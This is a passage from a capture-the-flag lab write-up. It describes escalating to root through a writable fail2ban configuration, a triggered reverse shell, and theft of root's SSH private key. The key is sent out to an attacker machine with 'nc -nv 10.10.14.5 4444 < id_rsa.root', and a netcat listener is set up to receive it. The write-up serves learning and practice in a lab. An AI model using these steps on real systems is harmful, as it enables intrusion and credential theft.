 2. As michael, perform ``/etc/init.d/fail2ban restart`` to enact the changes to fail2ban configuration

3. From my attacker machine, make a bunch of failed login attempts as fast as possible using my python script

4. :pray: pray for reverse shell

5. If I get it, quickly grab the flag. I need to be faster than the anacron job that overwrites ``/etc/fail2ban``.

   

Performing the above steps worked perfectly! :tada: root shell acquired!

![got_root](got_root.png)

... for like 5 whole seconds. Then the connection was terminated.

So to get a persistent root shell, I repeated the above steps. This time quickly copying-over root's ssh key into a place michael can access:

![nabbed root ssh key](nabbed root ssh key.png)

Super, let's try transferring that file over and logging in now.

> At this point, I realized I forgot to change the file owner! So even though michael can see the key, they cant access it. I performed the attack again, getting a new reverse shell, this time changing the file owner:
>
> ```
> chown michael:michael /home/michael/id_rsa.root
> ```

Then I transferred the file using nc:

(on the attacker box)

```
nc -lvnp 4444 > root_id_rsa
```

(as michael)

```
nc -nv 10.10.14.5 4444 < id_rsa.root
```

Then on my attacker machine I changed the key's permissions with ``chmod 700 root_id_rsa`` and logged in:

![root shell over ssh](root shell over ssh.png)

YES! Finally a nice solid ssh connection as root:tada:

------

Thanks for reading

:handshake: :handshake: :handshake: :handshake:
@4wayhandshake
